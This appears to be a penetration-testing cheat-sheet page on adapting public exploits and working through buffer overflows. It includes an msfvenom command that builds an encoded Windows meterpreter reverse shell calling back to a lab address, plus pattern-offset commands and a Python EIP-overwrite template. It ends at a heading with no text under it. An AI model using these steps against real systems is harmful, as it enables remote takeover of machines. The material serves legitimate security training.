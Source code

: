 # Editing Exploits

We often find exploits that do not work out of the box. Typical problems we encounter are:

* Payload needs to be changed
* Return-address is incorrect

We can generate our own shellcode to replace the default code in the exploit fairly easily using msfvenom.

```text
# Ex. exploit code was written in python for windows exploit
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.120 LPORT=443 -f py -e x86/shikata_ga_nai -i 3 -v shellcode
```

{% hint style="info" %}

It is generally best practice to keep the shellcode the same length as the original for compatability.

* Tip: Try to make your new payload smaller and fill the beginning with extra NOPs to make it the same size.

## Buffer Overflows

### 1. Fuzzing

Send Strings of increasing length to the vulnerable parameter in the service

### 2. Finding EIP with Pattern

`$ msf-pattern_create -l <size>` \* Length that crashed the application

`$ msf-pattern_offset -l <size> -q <eip-crash-value>`

Using the EIP offset found, create a poc to check the offset is correct and reliable

```text
# in python script
eip = '\xef\xbe\xad\xde'
buffer = "A" * <length offset> + eip + "C" * (<total-length> - <offset> - 4)
```

### 3. Finding Bad Characters

